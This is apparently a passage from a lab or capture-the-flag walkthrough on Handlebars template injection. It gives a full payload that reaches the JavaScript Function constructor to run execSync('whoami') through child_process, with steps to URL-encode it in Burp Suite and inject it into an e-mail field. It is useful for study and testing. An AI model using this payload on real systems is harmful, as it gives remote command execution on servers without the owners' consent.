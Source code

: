 - The require object has been called successfully and the `child_process` module loaded.
- Let's now attempt to run system commands.

```js
{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
      {{#with string.split as |codelist|}}
      {{this.pop}}
       {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
         {{this}}
       {{/with}}
     {{/each}}
   {{/with}}
  {{/with}}
{{/with}}
{{/with}}
```

- Again go to decoder in the `Burb suite` and encode this in the `URL` form, and inject it in `E-mail` field, you will got out put like follwoing.
